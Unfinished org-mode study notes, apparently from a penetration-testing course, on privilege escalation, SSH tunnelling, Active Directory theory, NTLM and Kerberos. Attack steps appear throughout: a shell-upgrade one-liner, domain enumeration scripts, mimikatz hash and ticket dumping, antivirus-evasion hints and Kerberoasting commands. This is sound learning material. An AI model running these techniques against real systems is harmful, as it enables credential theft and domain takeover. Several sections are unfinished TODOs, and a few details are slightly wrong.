** Considerations and Preparations
*** Dangers of Transferring Attack Tools
    + backdoor exploited by 3rd party
    + antivirus scan

*** TODO install Pure-FTPd
   + src:
   #+begin_src sh
sudo apt update && sudo apt install pure-ftpd

##setup
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome     | # lab
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
   #+end_src
   
*** TODO the Non-Interactive shell
    + src:
    #+begin_src sh
ftp <ip>
    #+end_src
    
    + problem:
      - the interactive shell feedback is not visiable to bind/reverse shell user.
        
*** upgrading a Non-Interactive shell # python spawn shell
    + src:
    #+begin_src sh
# in a bind shell
python -c 'import pty; pty.spawn("/bin/bash")'
    #+end_src
    
** Transferring Files with Windows Hosts
   
//TODO


* Book3_Chapter 18 Privilege Escalation
** entry
   + services - misconfigured 
   + services or binaries - insufficient permission restriction
   + kernel - vulnerabilities
   + software running with high privileges - vulnerabilities
   + sensitive information stored on local files
   + ? registry settings that always elevate privilege before executing a binary
   + installation scripts - may contain hard coded credentials
   + etc.
     
** information gathering
   | Enumeratiing        | Linux                     | Windows         |
   |---------------------+---------------------------+-----------------|
   | user                | whoami                    | whoami          |
   |                     | id                        | net user [user] |
   |                     | /etc/passwd               | net user        |
   |                     | /etc/hostname             | hostname        |
   | OS Ver. & Architect | /etc/issue /etc/*-release | systeminfo      |
   |                     | uname -a                  |                 |
   + src
   #+begin_src powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
  #TODO
   #+end_src
   #+begin_src sh
cat /etc/issue
cat /etc/*-release
   #+end_src
   
//TODO 516 ~ 560 lab

* Book3_Chapter 19 Password Attacks
  
** TODO 560~585 wordlist, etc

** Leveraging Password Hashes
*** Retrieving Password Hashes
    + src:
    #+begin_src sh
hashid '<hash>'                # hashtype analyse
    #+end_src
    
**** Windows::Security Accounts Manager(SAM) : mimikatz
     [[https://en.wikipedia.org/wiki/Security_Accounts_Manager]]
     + %SystemRoot%/system32/config/SAM
       - filesystem lock : the file cannot be accessed because the file is open in system. unless the system is shut down or blue screen exception has been thrown.
       - however, memory dump possible.
     + user passwords hash type:
       - LAN Manager (LM) hash, based on DES
       - NT LAN Manager (NTLM) hash, MD4
         
* Book3_Chapter 20 Port Redirection and Tunneling
  + ssh bind forward
  + https encapsulated forward
    
** ssh port forwarding
   + src:
   #+begin_src sh
ssh -L [bind_address:]<localPort>[[:remoteHost]:remotePort] <id>@<remoteHost>
  # the <localHost> will listen to <localPort> during the ssh session, and forward all inbound traffic to remotePort.
  # *-L must specify the remote destination port*: to communicate with the sshServer:dstPort

ssh –L 5901:10.10.0.5:3306 user@example.com
  # local port 5901 will be forward to user@example.com at ip 10.10.0.5 through ssh, to remote port 4492. Useful for accessing remote services (database server, etc.)

ssh -R [bind_address:]<remotePort>[[:host]:hostport] <id>@<remoteHost> 
  # the <remoteHost> will listen to <remotePort> during the ssh session, and forward all inbound traffic to host:hostport or the ssh client(localhost) by default.

ssh -D [bind_address:]<localPort> <id>@<remoteHost>
  # SOCK4/5 supported(man 1 ssh, 2020). application level dynamical forwarding. Listen to local port <localPort>, forward any incoming traffic to <id>@<remoteHost>, outbound port on the remote machine is then determined by application level protocol.
  # *-D cannot specify the remote destination port*: use the ssh-server as a proxy.
   #+end_src
   
*** ssh tricks
    + src: 
    #+begin_quote
~?' Display a list of escape characters.
~.' Disconnect.
~^Z' Background ssh.
~#' List forwarded connections.
~&' Background ssh at logout when waiting for forwarded connection / X11 sessions to terminate.
~B' Send a BREAK to the remote system (only useful for SSH protocol version 2 and if the peer supports it).
~C' Open command line. Currently this allows the addition of port forwardings using the -L, -R and -D options (see above)....
~R' Request rekeying of the connection (only useful for SSH protocol version 2 and if the peer supports it).
    #+end_quote
    
* Book3_Chapter 21 Active Directory Attacks
  
** misc
  + versions of windows server
    - the "desktop"
    - Server Core (since Windows Server 2008 R2, minimal server without GUI)
    - Server Nano (since Windows Server 2016, more minimal than Server Core, not eligible as Domain Controller)
 
** Active Directory Theory
*** Lightweight Directory Access Protocol(LDAP)
    + docs:
      - [[https://ldapwiki.com/wiki/][LDAPwiki]]
    // TODO p627 links
    + LDAP URI scheme:
      [[https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol]]
      
    + LDAP provider path:
      - src:
      #+begin_src powershell
LDAP://HostName[:PortNumber][/DistinguishedName]
      #+end_src
      - [[https://msdn.microsoft.com/en-us/library/aa746384(v=vs.85).aspx]]
    + CN : Common Name
    + OU : Organizational Unit
    + DC : Domain Component
    #+CAPTION: OU is like folder, and CN anything else
    [[./img/b3cp21_cn_ou.png]]
   
*** components::Domain Controller (DC)
    + about:
    #+begin_quote
    Active Directory consists of several components. The most important component is the domain controller (DC), which is *a Windows 2000-2019 server with the Active Directory Domain Services role installed*. The domain controller is the hub and core of Active Directory because it stores all information about how the specific instance of Active Directory is configured. It also enforces a vast variety of rules that govern how objects within a given Windows domain interact with each other, and what services and tools are available to end users.
    #+end_quote
    + Readings
      - [[https://technet.microsoft.com/library/cc786438(v=ws.10).aspx][MS doc-Domain Controller Roles]]

    + about:
    #+begin_quote
    When an instance of Active Directory is configured, a domain is created with a name such as corp.com where corp is the name of the organization. Within this domain, we can add various types of objects, including computer and user objects.
    #+end_quote
*** components::Organizational Units (OU)
    + about:
    #+begin_quote
    System administrators can (and almost always do) organize these objects with the help of Organizational Units (OU). OUs are comparable to file system folders in that they are containers used to store and group other objects. Computer objects represent actual servers and workstations that are domain-joined (part of the domain), and user objects represent employees in the organization. All AD objects contain attributes, which vary according to the type of object. For example, a user object may include attributes such as first name, last name, username, and password.
    #+end_quote
     [[https://technet.microsoft.com/en-us/library/cc978003.aspx]]
     
*** FSMO roles
    + info:
 [[https://support.microsoft.com/en-gb/help/197132/active-directory-fsmo-roles-in-windows]]
    #+begin_quote
    Active Directory is the central repository in which all objects in an enterprise and their respective attributes are stored. It is a hierarchical, multi-master enabled database, capable of storing millions of objects. Because it is multi-master, changes to the database can be processed at any given domain controller (DC) in the enterprise regardless of whether the DC is connected or disconnected from the network.
    #+end_quote
    + AD is *multi-master enabled* database. This model allows the flexibility that change could occur at any Domain Controller(DC) in the enterprise. However, this model could also possibility leads to conflicts(under race condition). To resolve this problem, AD use algorithm e.g. last writer wins. Or, to prevent the conflict use *Single-master model* in some cases.
    #+begin_quote
    To prevent conflicting updates in Windows, the Active Directory performs updates to certain objects in a single-master fashion. In a single-master model, only one DC in the entire directory is allowed to process updates. This is similar to the role given to a primary domain controller (PDC) in earlier versions of Windows (such as Microsoft Windows NT 3.51 and 4.0), in which the PDC is responsible for processing all updates in a given domain.

    Active Directory extends the single-master model found in earlier versions of Windows to include multiple roles, and the ability to transfer roles to any DC in the enterprise. Because an Active Directory role is not bound to a single DC, it is referred to as an FSMO role. Currently in Windows there are five FSMO roles:

    1. *Schema Master* - (one per forest?).
       + The schema master FSMO role holder is the DC responsible for performing updates to the directory schema (that is, the schema naming context or LDAP://cn=schema,cn=configuration,dc=<domain>). This DC is the only one that can process updates to the *directory schema*. Once the Schema update is complete, it is replicated from the schema master to all other DCs in the directory. There is only one schema master per directory.

    2. *Domain Naming Master* - (one per forest?).
       + The domain naming master FSMO role holder is the DC responsible for making changes to the forest-wide domain name space of the directory (that is, the Partitions\Configuration naming context or LDAP://CN=Partitions, CN=Configuration, DC=<domain>). This DC is the only one that can add or remove a domain from the directory. It can also add or remove cross references to domains in external directories.

    3. *Relative ID (RID) Master* - (one per domain?).
       + The RID master FSMO role holder is the single DC responsible for processing RID Pool requests from all DCs within a given domain. It is also responsible for removing an object from its domain and putting it in another domain during an object move.
       + When a DC creates a security principal object such as a user or group, it attaches a unique Security ID (SID) to the object. This SID consists of a domain SID (the same for all SIDs created in a domain), and a relative ID (RID) that is unique for each security principal SID created in a domain.
       + Each Windows DC in a domain is allocated a pool of RIDs that it is allowed to assign to the security principals it creates. When a DC's allocated RID pool falls below a threshold, that DC issues a request for additional RIDs to the domain's RID master. The domain RID master responds to the request by retrieving RIDs from the domain's unallocated RID pool and assigns them to the pool of the requesting DC. There is one RID master per domain in a directory.

    4. *Primary Domain Controller (PDC) Emulator* - (one per domain?).
       + The PDC emulator is necessary to synchronize time in an enterprise. Windows includes the W32Time (Windows Time) time service that is required by the Kerberos authentication protocol. All Windows-based computers within an enterprise use a common time. The purpose of the time service is to ensure that the Windows Time service uses a hierarchical relationship that controls authority and does not permit loops to ensure appropriate common time usage.
       + The PDC emulator of a domain is authoritative for the domain. The PDC emulator at the root of the forest becomes authoritative for the enterprise, and should be configured to gather the time from an external source. All PDC FSMO role holders follow the hierarchy of domains in the selection of their in-bound time partner.
       + In a Windows domain, the PDC emulator role holder retains the following functions:
         - Password changes performed by other DCs in the domain are replicated preferentially to the PDC emulator.
         - Authentication failures that occur at a given DC in a domain because of an incorrect password are forwarded to the PDC emulator before a bad password failure message is reported to the user.
         - Account lockout is processed on the PDC emulator.
         - The PDC emulator performs all of the functionality that a Microsoft Windows NT 4.0 Server-based PDC or earlier PDC performs for Windows NT 4.0-based or earlier clients.
       + ... (changelogs for pre-Windows 2000 system)

    5. *Infrastructure Master* - (one per domain?).
       + When an object in one domain is referenced by another object in another domain, it represents the reference by:
         - The GUID
         - The SID (for references to security principals)
         - The DN of the object being referenced

       + The infrastructure FSMO role holder is the DC responsible for updating an object's SID and distinguished name in a cross-domain object reference.
    #+end_quote

** Active Directory Enumeration
   + typically begins with a breach on a domain workstation or server, providing initial access, followed by enumeration of the AD environment.
   + goal: privilege escalation until gain control of domains. methods:
     - compromise a user of high-privilege group(e.g. Domain Admins group)
     - compromise a domain controller
       #+begin_quote
       ...since it may be used to modify all domain-joined computers or execute applications on them. Additionally, as we will see later, the domain controller contains all the password hashes of every single domain user account.
       #+end_quote
*** first goal::enumerate the domain users and learn as much as we can about their group memberships in search of high-value targets.
    
**** Traditional Approach : net.exe
     + src:
     #+begin_src powershell
net user                           # enum all local accounts
net user /domain                   # enum all users in the domain
  #### adam Guest iis_service sql_service jeff_admin
net user jeff_admin /domain
net group /domain                  # enum all groups in the domain
  #### *Secret_Group *Nested_Group
  
net group <global_security_group> /domain        # enum all group users
net localgroup <domain_local_security_group> /domain
     #+end_src
     + info:
       - Nested Group
       #+begin_quote
In Active Directory, a group (and subsequently all the included members) can be added as member to another group. This is known as a nested group.
       #+end_quote
       - TODO ?
       #+begin_quote
Unfortunately, the net.exe command line tool cannot list nested groups and only shows the direct user members. Given this and other limitations, we will explore a more flexible alternative in the next section that is more effective in larger real-world environments.
       #+end_quote
       
**** A Mordern Approach : 
     + other approaches:
       - Get-ADUser: powershell Remote Server Administration Tools (RSAT). need admin privilege to run.
         [[https://technet.microsoft.com/en-us/library/gg413289.aspx]]
     
     + a script:
       - overview:
       #+begin_quote
As an overview, this script will *query the network for the name of the Primary domain controller emulator and the domain*, *search Active Directory and filter the output to display user accounts*, and then clean up the output for readability.
       #+end_quote
       + use a DirectorySearcher object, to query the AD using LDAP.
       + The LDAP needs:
         - target hostname
         - DistinguishedName (DN) of the domain

       - src:
    #+begin_src powershell
## [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
## get a domain object

[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
    ## Forest : corp.com
    ## DomainControllers : {DC01.corp.com}
    ## Children : {}
    ## DomainMode : Unknown
    ## DomainModeLevel : 7
    ## Parent :
    ## PdcRoleOwner : DC01.corp.com
    ## RidRoleOwner : DC01.corp.com
    ## InfrastructureRoleOwner : DC01.corp.com
    ## Name : corp.com
    #+end_src

    #+begin_src powershell
## build the LDAP search string with the domain object

$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$SearchString

## LDAP://<PdcRoleOwner>/<Name.split('.')...>
## LDAP://DC01.corp.com/DC=corp,DC=com

## instantiate Searcher, Searcher.SearchRoot set to the entire AD
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain

## set filters, or search: *LDAP Famous filters*
$Searcher.filter="samAccountType=805306368"

    ## $Searcher.FindAll()

    ## | Path                                            | Properties      |
    ## |-------------------------------------------------+-----------------|
    ## | LDAP://CN=Administrator,CN=Users,DC=corp,DC=com | {admincount...} |
    ## | LDAP://CN=Guest,CN=Users,DC=corp,DC=com         | {iscritical...} |

$Result = Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    Write-Host"------------------------"
}
    #+end_src
    - TODO p632 script modifications, other filters, lab
***** Resolving Nested Groups
      
TODO p632
TODO the reason

***** Current Logged on Users
     + [[https://medium.com/@sixdub]]
     + [[https://medium.com/@sixdub/derivative-local-admin-cdd09445aac8]]

     + NetWkstaUserEnum (need admin privilege)
[[https://msdn.microsoft.com/en-us/library/windows/desktop/aa370669(v=vs.85).aspx]]
     + NetSessionEnum
[[https://docs.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netsessionenum]]

     + info:
     #+begin_quote
     During an assessment, after compromising a domain machine, we should enumerate every computer in the domain and then use *NetWkstaUserEnum* against the obtained list of targets. Keep in mind that this API *will only list users logged on to a target if we have local administrator privileges* on that target.
     Alternatively we could focus our efforts on discovering the domain controllers and any potential file servers (based on servers hostnames or open ports) in the network and use *NetSessionEnum* against these servers in order to enumerate all active users’ sessions.
     #+end_quote

     + the *PowerView*, one common solution to avoid endpoint dectection.
       [[https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1]]
     + src:
     #+begin_src powershell
     TODO p636, init && src
     #+end_src
     
*** Enumeration Through Service Principal Names (the service accounts)
    + info:
    #+begin_quote
    [...]
    An alternative to attacking a domain user account is to target so-called service accounts, which may also be members of high value groups.
    When an application is executed, it must always do so in the context of an operating system user.
    If a user launches an application, that user account defines the context. However, services launched by the system itself use the context based on a Service Account.
    In other words, isolated applications can use a set of predefined service accounts: *LocalSystem*, *LocalService*, and *NetworkService*.
    For more complex applications, a domain user account may be used to provide the needed context while still having access to resources inside the domain.
    When applications like Exchange, SQL, or Internet Information Services (IIS) are integrated into Active Directory, a unique service instance identifier known as a *Service Principal Name (SPN)*  is used to associate a service on a specific server to a service account in Active Directory.
    [...]
    #+end_quote
    #+begin_quote
*Managed Service Accounts*, introduced with Windows Server 2008 R2, were designed for complex applications which require tighter integration with Active Directory. Larger applications like SQL and Microsoft Exchange often require server redundancy when running to guarantee availability, but Managed Service Accounts cannot support this. To remedy this, *Group Managed Service Accounts* were introduced with Windows Server 2012, but this requires that domain controllers run Windows Server 2012 or higher. Because of this, many organizations still rely on basic Service Accounts.
    #+end_quote
    + Aim: 
    #+begin_quote
    By enumerating all registered SPNs in the domain, we can obtain the IP address and port number of applications running on servers integrated with the target Active Directory, limiting the need for a broad port scan.
    #+end_quote
    + Method:
      - query the DC, search for specific *serviceprincipalname*.
    [[./AD_Enum.ps1]]
      - serviceprinciplename {HTTP/CorpWebServer.corp.com}
      - which reveals the url. use e.g. nslookup, for further info
        
**  Active Directory Authentication
    #+begin_quote
    Active Directory uses either Kerberos or NTLM authentication protocols for most authentication attempts. We will discuss the simpler NTLM protocol first.
    #+end_quote
    + docs:
      - [[https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf]] 
    + the hashing related service: Local Security Authority Subsystem Service (LSASS)

*** NTLM Authentication
    #+begin_quote
    NTLM authentication is used when a client authenticates to a server by IP address (instead of by hostname), or if the user attempts to authenticate to a hostname that is not registered on the Active Directory integrated DNS server. Likewise, third-party applications may choose to use NTLM authentication instead of Kerberos authentication. 
    #+end_quote
    + steps(a client login to an application server):
      - 1. client *calculate NTLM hash from the user's password*;
      - 2. client computer *send the username* to the application server;
      - 3. application server replies a random value called the *nonce* or *challenge* back to the client;
      - 4. client *encrypts the nonce using the NTLM hash*, as *response* and send it back to the application server.
      - 5. application server forwards the *response*, the *username*, and the *nonce* to the DC;
      - 6. DC encrypt the nonce again, with the user's NTLM hash and compare the result with the *response*, approve the authentication request if the comparison returns equal. DC knows all users' NTLM hash.

    + hence pass-the-hash is possible knowing NTLM hash.
    + the NTLM auth may leave footprint in eventlog.

| src        | ---pl-->                    | dst        |
| ---------- | --------------------------- | ---------- |
| client     | username                    | app-server |
| app-server | nonce                       | client     |
| client     | res(NTLM hash hashed nonce) | app-server |
| app-server | res, username, nonce        | DC         |
| DC         | auth-result                 | app-server | 

*** Kerboros Authentication
  + docs:
    - [[https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf]]
    - [[https://www.ietf.org/rfc/rfc4120.txt][RFC4120::The Kerberos Network Authentication Service (V5)]]
    - [[https://tools.ietf.org/html/rfc4757][RFC4757::The RC4-HMAC Kerberos Encryption Types Used by Microsoft Windows]] has further reference to the key encryption scheme or negotiation scheme used by Kerboros.
    - [[https://tools.ietf.org/html/rfc8009][RFC8009::AES Encryption with HMAC-SHA2 for Kerberos 5]]
      
  + info:
    - the default authentication protocol since Windows Server 2003.
    - "While NTLM authentication works through a principle of challenge and response, Windows-based Kerberos authentication uses a ticket system."
    - "At a high level, Kerberos client authentication to a service in Active Directory involves the use of a domain controller in the role of a *Key Distribution Center*, or *KDC*" 
[[./img/b3cp21_KerberosFlow.png]]
 
  + the basic: 
  #+begin_quote
  The basic Kerberos authentication process proceeds as follows: A client sends a request to the authentication server (AS) for "credentials" for a given server. *The AS responds with these credentials, encrypted in the client's key. The credentials consist of a "ticket" for the server and a temporary encryption key (often called a "session key").* The client *transmits the ticket (which contains the client's identity and a copy of the session key, all encrypted in the server's key) to the server.* The session key (now shared by the client and server) is used to authenticate the client and may optionally be used to authenticate the server. It may also be used to encrypt further communication between the two parties or to exchange a separate sub-session key to be used to encrypt further communication.
  #+end_quote

  + vectors 0:
  #+begin_quote
  Implementation of the basic protocol consists of one or more authentication servers running on *physically secure* hosts.
  #+end_quote

  + vectors 1:
  #+begin_quote
  There are two basic methods by which a client can ask a Kerberos server for credentials. In the first approach, the client sends a *cleartext request* for a ticket for the desired server to the AS. The reply is sent encrypted in the client's secret key. Usually this request is for a ticket-granting ticket (TGT), which can later be used with the ticket-granting server (TGS). In the second method, the client sends a request to the TGS. The client uses the TGT to authenticate itself to the TGS in the same manner as if it were contacting any other application server that requires Kerberos authentication. The reply is encrypted in the session key from the TGT. Though the protocol specification describes the AS and the TGS as separate servers, in practice they are implemented as different protocol entry points within a single Kerberos server.
  #+end_quote
  #+begin_quote
  To verify the identities of the principals in a transaction, the client transmits the ticket to the application server. Because the ticket is sent "in the clear" (parts of it are encrypted, but this encryption doesn't thwart replay) and might be intercepted and reused by an attacker, additional information is sent to prove that the message originated with the principal to whom the ticket was issued. This information (called *the authenticator) is encrypted in the session key and includes a timestamp.* The timestamp proves that the message was recently generated and is not a replay. Encrypting the authenticator in the session key proves that it was generated by a party possessing the session key. Since no one except the requesting principal and the server know the session key (it is never sent over the network in the clear), this guarantees the identity of the client.
  The integrity of the messages exchanged between principals can also be guaranteed by using the session key *(passed in the ticket and contained in the credentials).* This approach provides detection of both replay attacks and message stream modification attacks.
  #+end_quote
  + nouns:
    - Credentials:
    #+begin_quote
    A *ticket plus the secret session key* necessary to use that ticket successfully in an authentication exchange. 
    #+end_quote
    - Ticket:
    #+begin_quote
    A record that helps a client authenticate itself to a server; it contains the client's identity, a session key, a timestamp, and other information, all sealed using the server's secret key. It only serves to authenticate a client when presented along with a fresh Authenticator.
    #+end_quote


**** steps: The Authentication Service (AS) Exchange (RFC 4120::3.1) (user get the TGT)

  | Message direction  | Message type            |
  |--------------------+-------------------------|
  | client to Kerberos | KRB_AS_REQ              |
  | Kerberos to client | KRB_AS_REP or KRB_ERROR |

  #+begin_quote
  The Authentication Service (AS) Exchange between the client and the Kerberos Authentication Server is initiated by a client when it wishes to obtain authentication credentials for a given server but currently holds no credentials.
  #+end_quote 
    - 1. user login to workstation: user send *[KRB_]AS_REQ* ((Kerberos) Authentication Service Request) which contains username and a encrypted timestamp. The timestamp is encrypted using a *hmac* (Hash-based Message Authentication Code) derived from the user's password, to the *KDC* . For the hmac, see the docs section above, some older version use *rc4_hmac_nt* which is NTLM/md4 hash.
[[./img/b3cp21_KerberosPreAuth.png]]
    - 2. the *KDC*, also knows the *hmac*, will validate the authentication if it can decrypt the timestamp with the *hmac*. If auth success, a *TGT* (Ticket Granting Ticket) representing the user in the domain for a specified period, will be issued and send back in the *[KRB_]AS_REP* to the client. The KDC considers the client auth complete once the client has received the session key and the *TGT*.

      + "This *TGT* is encrypted with a key(the *hmac* of the *krbtgt* account) shared between all KDC", "The *TGT* contains information regarding the user, including group memberships, the domain, a time stamp, the IP address of the client, and the session key."

[[./img/b3cp21_KerberosTGT.png]]
      + the *[KRB_]AS_REP* also contains a session key(i.e. two copies, one in the AS_REP, another sealed in the TGT) since Kerberos is stateless. the session key is encrypted using the user's *hmac* .
      #+begin_quote RFC4120 3.1.
      The response, *KRB_AS_REP* , contains a ticket for the client to present to the server, and a session key that will be shared by the client and the server. The session key and additional information are encrypted in the client's secret key.
      #+end_quote

      + The *TGT* will be valid for 10 hours by default, after that a renewal occurs. "This renewal does not require the user to re-enter the password."
    
    - the *krbtgt* account's *hmac* only changes in rare cases (in some enterprises "the pw hasn't changed in years")
      + upgrade of domain functional level
      + direct recovery
      + manually changed (compromise recovery)
    - the ticket is ASN.1 encoded? tool::OpenSSL
    
**** steps: The Ticket-Granting Service (TGS) Exchange (user get a TGS)

  | Message direction  | Message type             |
  |--------------------+--------------------------|
  | client to Kerberos | KRB_TGS_REQ              |
  | Kerberos to client | KRB_TGS_REP or KRB_ERROR |

  + TGS Exchange, the overview:
  #+begin_quote
  The TGS exchange between a client and the Kerberos TGS is *initiated by a client* when it seeks to obtain authentication credentials for a given server (which might be registered in a remote realm), when it seeks to renew or validate an existing ticket, or when it seeks to obtain a proxy ticket. In the first case, the client must already have acquired a ticket for the Ticket-Granting Service using the AS exchange (the TGT is usually obtained when a client initially authenticates to the system, such as when a user logs in).
  
  The message format for the TGS exchange is almost identical to that for the AS exchange.  The primary difference is that *encryption and decryption* in the TGS exchange does not take place under the client's key. Instead, *the session key from the TGT or renewable ticket,* or sub-session key from an Authenticator is used.  As is the case for all application servers, expired tickets are not accepted by the TGS, so once a renewable or TGT expires, the client must use a separate exchange to obtain valid tickets. (RFC 4120::3.3)
  #+end_quote

  + TGS Exchange, client side:
    - user wishes to access resources of the domain (e.g. something with a registered *SPN*): client constructs a *KRB_TGS_REQ* (Ticket Granting Service Request) packet "that consists of *the current user* and a *timestamp (encrypted using the session key),*  *the SPN of the resource,* and *the encrypted TGT.*" (and the session key)
    #+begin_quote
    The client prepares the KRB_TGS_REQ message, providing an authentication header as an element of the padata field, and including the same fields as used in the KRB_AS_REQ message along with several optional fields: the enc-authorizatfion-data field for application server use and additional tickets required by some options. ( RFC4120 3.3.1. Generation of KRB_TGS_REQ Message)
    #+end_quote

  + TGS Exchange, server side, additional checks
    - First, the Kerberos server will determine which key should be used to decrypt the TGT. (if the SPN exists in this domain then use the TGS's key, if the TGT was issued by another realm then use inter-realm key.)
      #+begin_quote
      (...), the ticket granting service on the KDC receives the TGS_REQ, and if the SPN exists in the domain, the TGT is decrypted using the secret key known only to the KDC. (PWK p646)
      #+end_quote
    - Next, the session key is extracted from the TGT, and used to decrypt other info in the TGS_REQ, and perform several checks.
      #+begin_quote
      The session key is then extracted from the TGT and used to decrypt the username and timestamp of the request. As this point the KDC performs several checks:
      1. The TGT must have a valid timestamp (no replay detected and the request has not expired).
      2. The username from the TGS_REQ has to match the username from the TGT.
      3. The client IP address needs to coincide with the TGT IP address. (PWK p646)
      #+end_quote

    - If valid, server send the *TGS_REP*
      #+begin_quote
      (...) ( the *TGS_REP* ) packet contains three parts:
      1. The SPN to which access has been granted.
      2. A session key to be used between the client and the SPN.
      3. A service ticket containing the username and group memberships along with the newly-created session key. 

      The first two parts (SPN and session key) are encrypted *using the session key associated with the creation of the TGT* and the service ticket is encrypted using *the password hash of the service account registered with the SPN* in question.
      #+end_quote

    - When the TGS Exchange is complete, the client should have both a session key and a service ticket. Then the service authentication begins.

**** steps: The Client/Server (CS) Authentication Exchange (RFC4120::3.2) (user use a TGS)

| Message direction              | Message type            |
| ------------------------------ | ----------------------- |
| Client to Application server   | KRB_AP_REQ              |
| [optional] Ap server to Client | KRB_AP_REP or KRB_ERROR |

    - CS Exchange Overview:
      #+begin_quote
      The client/server authentication (CS) exchange is used by network applications to authenticate the client to the server and vice versa. The client MUST have already acquired credentials for the server using the AS or TGS exchange. (RFC4120::3.2)
      #+end_quote
  
    - Client need to obtain the service ticket from some source, before initiating a CS Exchange:
      #+begin_quote 
      the client "obtains (either through a credentials cache, the AS exchange, or the TGS exchange) a ticket and session key for the desired service." (RFC4120::3.2.2.)
      #+end_quote
  
    - General Flow:
      #+begin_quote
      Passing these checks provides only authentication of the named principal; it does not imply authorization to use the named service. Applications MUST make a separate authorization decision based upon the authenticated name of the user, the requested operation, local access control information such as that contained in a .k5login or .k5users file, and possibly a separate distributed authorization service. (RFC4120::3.2.3.)
      #+end_quote
  
      #+begin_quote
      First, the client sends to the application server an application request or *AP_REQ* , which includes *the username and a timestamp encrypted with the session key associated with the service ticket along with the service ticket itself.* (note: the session key in the TGS_REP)
  
      The application server *decrypts the service ticket using the(note: its) service account password hash* and extracts the username and the session key. It then *uses the latter to decrypt the username from the AP_REQ.* If the AP_REQ username matches the one decrypted from the service ticket, the request is accepted. Before access is granted, the service inspects the supplied group memberships in the service ticket and assigns appropriate permissions to the user, after which the user may access the requested service. (PWK)
      #+end_quote

*** Cached Credential Storage and Retrieval
    - docs:
      + [[https://technet.microsoft.com/en-us/library/cc961760.aspx][Security Subsystem Architecture]]

    - Target::the Cached Credentials
      #+begin_quote
      Since Microsoft’s implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space. 

      If we gain access to these hashes, we could crack them to obtain the cleartext password or reuse them to perform various actions. (PWK)
      #+end_quote 
    
    - Problems:
      + need SYSTEM(local administrator) privilege, since LSASS runs as SYSTEM.
      + the LSASS data is encrypted with an LSASS-store key.
      + the in-memory data structures used by LSASS is not publicly documented.

    - Hence, tools created to tackle the problem and extract the hashes.
      + Mimikatz

**** Mimikatz
     + AV Evasion
       - Either: run directly from memory use injector like Powershell.
       [[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1]]
         + acquire SeDubugPrivlege(require local admin), with allows a process to "debug and adjust the memory of a process owned by another account.(MS doc: [[https://docs.microsoft.com/ja-jp/windows/win32/secauthz/privilege-constants][privilege-constants]])"
         + or if with SYSTEM account, scheduled tasks, psexec -s ..., (the module sekurlsa) work without the debug privilege ([[https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa]]).

       - Or: dump the entire LSASS process memory use built-in tool like Task Manager, then analysis the dump in a helper machine.

     + src:
       #+begin_quote
       C:\Tools\active_directory> mimikatz.exe

       mimikatz # privilege::debug
       Privilege '20' OK

       mimikatz # sekurlsa::logonpasswords 
       [hash dumps]

       mimikatz # sekurlsa::tickets
       [tickets dump]
       (PWK p648) 
       #+end_quote
     
     + TODO: lab p650, && obfuscate mimikatz && memory dump

*** Service Account Attacks 
    + docs:
      - [[https://adsecurity.org/?p=2293][Cracking Kerberos TGS Tickets Using Kerberoast – Exploiting Kerberos to Compromise the Active Directory Domain]]

    + info:
      - Since Kerberos TGS exchange only check a user's "authenticity" but not "authority", knowing the SPN, any user could request could request a service ticket from the DC, extract it from the local memory and save it to the disk. Then service account password could be cracked.
      #+begin_quote
      The reason why this attack is successful is that most service account passwords are the same length as the domain password minimum (often 10 or 12 characters long) meaning that even brute force cracking doesn’t likely take longer than the password maximum password age (expiration). Most service accounts don’t have passwords set to expire, so it’s likely the same password will be in effect for months if not years.
      ([[https://adsecurity.org/?p=2293]])
      #+end_quote 

    + src:
    #+begin_src ps
$SPN = 'HTTP/CorpWebServer.corp.com'
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPN 
klist
  ## built-in command, display all cached Kerberos tickets for the current user.
  ## TODO: find SPNs using LDAP filtering
    #+end_src
    #+begin_src
       C:\Tools\active_directory> mimikatz.exe

       mimikatz # privilege::debug
       Privilege '20' OK

       mimikatz # kerberos::list /export 
    #+end_src
    
**** Kerberoasting?
     + docs:
       - [[https://github.com/nidem/kerberoast]]

     + about: 
       - Enumerate SPNs(LDAP) -> request TGSs -> crack weak passwords(espically rc4-hmac) offline -> ?
       - there is a kerberoast package.
       //TODO
    
     + src:
     #+begin_src sh
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt <TGS ticketFile> 
     #+end_src 

**** ? Low and Slow Password Guessing

** Active Directory Lateral Movement
*** Pass the Hash (PtH)
    + docs:
    [[https://msdn.microsoft.com/en-us/library/windows/desktop/ms685150(v=vs.85).aspx][Service Control Manager]] 

    + pass the NTLM hash via Server Message Block (SMB) protocol.
    + more:
